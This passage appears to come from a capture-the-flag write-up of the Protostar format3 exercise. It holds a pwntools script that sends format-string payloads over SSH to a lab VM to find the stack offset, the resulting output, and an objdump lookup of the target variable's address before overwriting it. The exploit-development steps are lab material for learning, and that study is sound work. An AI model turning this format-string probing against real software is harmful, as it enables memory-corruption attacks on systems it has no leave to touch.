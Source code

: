 
```python
def find_pos():
    r = ssh(host="192.168.160.128" ,password="user" , user="user")

    control_pos=0 

    for i in range(20): 
        format3 = r.run(["/opt/protostar/bin/format3"])
        payload="CCCC%{}$pAAAA".format(i) # we use the following pattern CCCC%i$pAAAA

        format3.sendline(payload)
        output=str(format3.recv())
        if "43434343" in output: # if we found the CCCC on the stack we have found the start of our control buffer
            print("POSTION : ", i, "\noutput: ", output)
            control_pos= i

            format3.close()
            return control_pos 
        format3.close()

    return control_pos

```
output:

```bash
...
[*] Closed SSH channel with 192.168.160.128
[+] Opening new channel: ['/opt/protostar/bin/format3']: Done
[*] Closed SSH channel with 192.168.160.128
[+] Opening new channel: ['/opt/protostar/bin/format3']: Done
[*] Closed SSH channel with 192.168.160.128
[+] Opening new channel: ['/opt/protostar/bin/format3']: Done
[*] Closed SSH channel with 192.168.160.128
[+] Opening new channel: ['/opt/protostar/bin/format3']: Done
[*] Closed SSH channel with 192.168.160.128
[+] Opening new channel: ['/opt/protostar/bin/format3']: Done
[*] Closed SSH channel with 192.168.160.128
[+] Opening new channel: ['/opt/protostar/bin/format3']: Done
POSTION :  12 
output:  b'CCCC0x43434343AAAA\ntarget is 00000000 :(\n'
[*] Closed SSH channel with 192.168.160.128

```
So at the 12th position our CCCC is being located, the idea is to replace CCCC 
with the address of "target" and then overwrite the value at this address.

## address of target

```bash
user@protostar:~$ objdump -t /opt/protostar/bin/format3 | grep -i target
080496f4 g     O .bss	00000004              target
```
